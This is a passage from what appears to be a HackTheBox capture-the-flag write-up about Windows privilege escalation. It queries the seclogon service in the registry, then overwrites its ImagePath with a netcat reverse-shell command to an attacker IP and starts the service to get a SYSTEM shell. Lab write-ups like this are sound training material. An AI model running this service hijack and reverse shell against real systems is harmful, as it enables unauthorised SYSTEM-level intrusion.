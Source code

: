 ```
C:\Users\Hector\Documents>reg query HKLM\System\CurrentControlSet\Services\seclogon

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon
    Description    REG_SZ    @%SystemRoot%\system32\seclogon.dll,-7000
    DisplayName    REG_SZ    @%SystemRoot%\system32\seclogon.dll,-7001
    ErrorControl    REG_DWORD    0x1
    FailureActions    REG_BINARY    805101000000000000000000030000001400000001000000C0D4010001000000E09304000000000000000000
    ImagePath    REG_EXPAND_SZ    %windir%\system32\svchost.exe -k netsvcs -p
    ObjectName    REG_SZ    LocalSystem
    RequiredPrivileges    REG_MULTI_SZ    SeTcbPrivilege\0SeRestorePrivilege\0SeBackupPrivilege\0SeAssignPrimaryTokenPrivilege\0SeIncreaseQuotaPrivilege\0SeImpersonatePrivilege
    Start    REG_DWORD    0x3
    Type    REG_DWORD    0x20
```

I'll change the ImagePath of the service so it runs my netcat as SYSTEM.

```
C:\Users\Hector\Documents>reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.51 8888 -e cmd.exe" /f

The operation completed successfully.

C:\Users\Hector\Documents>sc start seclogon
```

![](/assets/images/htb-writeup-control/root.png)
